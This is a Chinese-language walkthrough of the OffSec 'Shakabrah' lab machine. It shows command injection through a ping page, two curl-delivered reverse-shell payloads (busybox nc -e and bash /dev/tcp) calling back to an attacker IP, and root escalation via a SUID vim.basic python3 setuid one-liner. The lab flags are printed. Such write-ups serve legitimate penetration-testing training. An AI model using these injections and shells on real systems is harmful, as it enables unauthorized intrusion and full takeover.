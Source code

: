 # Shakabrah

2024-5-28 https://portal.offsec.com/labs/play

difficulty: easy

## IP

192.168.237.86

## Scan

Open Port -> 22,80

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

先看 80 吧，http://192.168.237.86/ 显示的是一个 ping 功能的页面，输入 127.0.0.1 显示了 ping 的结果，应该此处存在命令执行漏洞：

```
http://192.168.237.86/?host=127.0.0.1|ls

index.php
```

经过测试，发现目标机器只允许 80 端口外联。证明存在漏洞，进行反弹利用，kali 上监听 80 端口：

```
curl -G --data-urlencode 'host=127.0.0.1;busybox nc 192.168.45.231 80 -e /bin/bash' http://192.168.237.86/

curl -G --data-urlencode 'host=127.0.0.1;/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.45.231/8888 0>&1"' http://192.168.237.86/
```

获得了反弹的 shell，使用 python3 升级 tty。

发现 user flag：

```
www-data@shakabrah:/home$ cd dylan/
www-data@shakabrah:/home/dylan$ ls -al
total 28
drwxr-xr-x 3 dylan dylan 4096 Aug 25  2020 .
drwxr-xr-x 3 root  root  4096 Aug 25  2020 ..
lrwxrwxrwx 1 root  root     9 Aug 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 dylan dylan  220 Aug 25  2020 .bash_logout
-rw-r--r-- 1 dylan dylan 3771 Aug 25  2020 .bashrc
drwx------ 3 dylan dylan 4096 Aug 25  2020 .gnupg
-rw-r--r-- 1 dylan dylan  807 Aug 25  2020 .profile
-rw-r--r-- 1 dylan dylan   33 May 28 20:04 local.txt
www-data@shakabrah:/home/dylan$ cat local.txt
c65c0e14a4be83cde64783aacd2cfb0e
```

发现 suid 程序 vim.basic 进行利用,目标系统上有 python3：

```
vim.basic -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

得到 root 权限：

```
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cd /root
# cat proof.txt
f4dabe75cd6ed4d828d9debf50475355
```
